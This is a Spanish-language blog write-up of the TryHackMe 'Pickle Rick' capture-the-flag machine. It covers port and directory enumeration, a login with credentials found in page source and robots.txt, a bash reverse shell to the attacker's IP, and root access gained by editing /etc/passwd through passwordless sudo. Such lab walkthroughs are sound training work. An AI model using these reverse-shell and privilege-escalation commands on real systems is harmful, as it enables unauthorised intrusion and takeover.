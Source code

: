 ```yaml
---
title: Pickle Rick
date: 2024-09-21
categories: [PREPARING EJPTv2, TryHackMe]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


En la máquina **Pickle Rick**, encuentro credenciales realizando **Fuzzing** web, y obtengo acceso en un panel de comandos, con la capacidad de ejecutar comandos en la máquina. Entraremos en la máquina y escalaré privilegios por los permisos de **Sudo** del usuario **www-data**.

---

![picture](/assets/images/ejptv2/rick1.png)

Lo primero que realizaré, será un *PING*, para comprobar si tengo conectividad con la máquina, y ya de paso para ver de que sistema operativo se trata.

Veo que tengo conectividad, y que el **ttl=63**, con lo que ya sabemos que estamos ante una máquina **Linux**.

![picture](/assets/images/ejptv2/rick2.png)

A continuación, realizaré será un escaneo de puertos con *Nmap*, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.233.129 -n -Pn -v
```

![picture](/assets/images/ejptv2/rick3.png){: w="600" h="300" }

Al comprobar los puertos abiertos, me dirijo al navegador para ver el contenido de la página web corriendo por el puerto **80**.

![picture](/assets/images/ejptv2/rick4.png)

Buscando algún tipo de información comentada en el código fuente de la página, encuentro un nombre de usuario.

![picture](/assets/images/ejptv2/rick5.png)

Realizando **Fuzzing** con **Gobuster**, encuentro las siguientes rutas y archivos.

```bash
gobuster dir -u http://10.10.233.129 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.md -b 404,403
```

![picture](/assets/images/ejptv2/rick6.png)

En el archivo "**robots.txt**", encuentro una palabra en texto claro.

![picture](/assets/images/ejptv2/rick7.png)

Y en el archivo de **login.php** encuentro un panel de login, voy a probar a usar el nombre de usuario encontrado y el texto reciente del archivo "**robots.txt**".

![picture](/assets/images/ejptv2/rick8.png)

Y obtengo resultado.

![picture](/assets/images/ejptv2/rick9.png)

Me llama la atención que haya un panel de comandos, voy a intentar ejecutar un comando para comprobar si me lo ejecuta en la máquina y me muestra el *output* del comando ejecutado.

Ejecutando el comando **whoami**, nos muestra el usuario que está corriendo el servicio Web.

![picture](/assets/images/ejptv2/rick10.png)

A continuación, la idea es obtener una **Reverse Shell**, para poder ejecutar comandos en la máquina local desde una terminal interactiva.

Para ello primero crearemos un **Listener** con **ncat**, por donde recibiré la **Reverse Shell**.

- Listener
	
```bash
nc -lnvp 4444
```

- Código para obtener la **Reverse Shell**.
	
```bash
bash -c "bash -i >& /dev/tcp/'Nuestra Ip'/4444 0>&1"
```

Y una vez ejecutemos, se nos quedará cargando la página, y habremos obtenido la **Shell** interactiva por el **Listener**.

- Ejecución del comando.

    ![picture](/assets/images/ejptv2/rick11.png)

- Shell interactiva

    ![picture](/assets/images/ejptv2/rick12.png)

Realizo un tratamiento de la **TTY**, para poder trabajar mejor.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

En la misma ruta encuentro la primera **flag**.

![picture](/assets/images/ejptv2/rick13.png)

Buscando en la máquina, encuentro el directorio "**rick**" en "**/home**", y dentro encuentro la segunda flag.

![picture](/assets/images/ejptv2/rick14.png)

Y buscando posibles escaladas de privilegios, en búsqueda de la última **flag**, intentando encontrar bits **SUID**, **capabilities**, procesos, contraseñas en archivos, etc.

Me doy cuenta que el usuario **www-data** puede ejecutar **SUDO** sin necesitar contraseña. (*muy extraño*)

![picture](/assets/images/ejptv2/rick15.png)

Para la escalada de privilegios, le quitaré la contraseña al usuario **root**, para ello modificaremos el archivo "**/etc/passwd**".

```bash
sudo nano /etc/passwd
```

- Antes
	
	![picture](/assets/images/ejptv2/rick16.png)

- Después
	
	![picture](/assets/images/ejptv2/rick17.png)

Guardamos, salimos y migramos al usuario **root**.

![picture](/assets/images/ejptv2/rick18.png)

Y encontramos la tercera y última flag.

![picture](/assets/images/ejptv2/rick19.png)